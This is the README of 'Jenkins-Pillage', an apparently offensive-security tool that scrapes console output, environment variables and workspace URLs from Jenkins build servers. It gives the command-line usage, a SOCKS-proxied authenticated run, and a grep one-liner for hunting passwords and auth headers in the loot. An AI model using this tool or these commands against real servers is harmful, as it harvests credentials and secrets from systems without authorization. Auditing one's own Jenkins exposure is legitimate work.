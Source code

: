 # Jenkins-Pillage
This tool will attempt to pull console output, environment variables, and workspaces associated with Jenkins builds. It works both against unauthenticated and authenticated (with creds) servers. 

Typically lots of sensitive information may be retrieveable from these locations and this tool aims to automate the pillaging of that info. Credentials, API endpoints, private keys, and much more have been gathered using Jenkins-Pillage. 

## Requirements
 - Python3
 - pip3 install requests
 - pip3 install bs4

## Help Info
```
$ ./jenkins-pillage.py --help
usage: jenkins-pillage.py [-h] [-b BUILD_URL] [-u USERNAME] [-p PASSWORD]
                          [-l LIST_URL] [-a AUTO] [-f]

Pillage sensitive information from Jenkins servers

optional arguments:
  -h, --help            show this help message and exit
  -b BUILD_URL, --buildurl BUILD_URL
                        The build URL to pillage
  -u USERNAME, --user USERNAME
                        The Basic Auth username for the service
  -p PASSWORD, --password PASSWORD
                        The Basic Auth password for the service
  -l LIST_URL, --list LIST_URL
                        Lists all found build URLs to use with -b
  -a AUTO, --auto AUTO  Automatically perform -l and then -b on a root URL
  -f, --force           Force the URLs to use the supplied socket (in case the
                        server returns localhost)
```
## Usage
Easy mode:
```
$ ./jenkins-pillage.py -a https://jenkins.example.com
Getting a list of all build URLs
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
Attempting: https://jenkins.example.com/job/Application1/6
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
...
```

List all build URLs recursed from a top level URL:
```
$ ./jenkins-pillage.py -l https://jenkins.example.com
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
...
```

Pull the console output, workspace zip url, and environment variables of a build recursed from above:
```
$ ./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
Same but behind an SSH proxy and needs creds to work:
```
$ export all_proxy=socks4a://localhost:1080
$ ./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4 -u admin -p Password1
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
The files are pulled down to the current directory. The URL for the zip download is placed in a file as opposed to downloading the zip because many of the zips I've seen can easily fill up your hard drive. Once the files are downloaded, grep to your hearts delight:
```
$egrep -i 'password|Authorization.*Basic|sqlplus|<other_creds_or_commands>' *
```

## Caveat
Jenkins has a _lot_ of available plugins that could also house sensitive data. Use this tool as a first step in pillaging Jenkins boxes. This tool is not a substitute for manual review and is considered in beta so YMMV. Pull requests for additional features are welcome.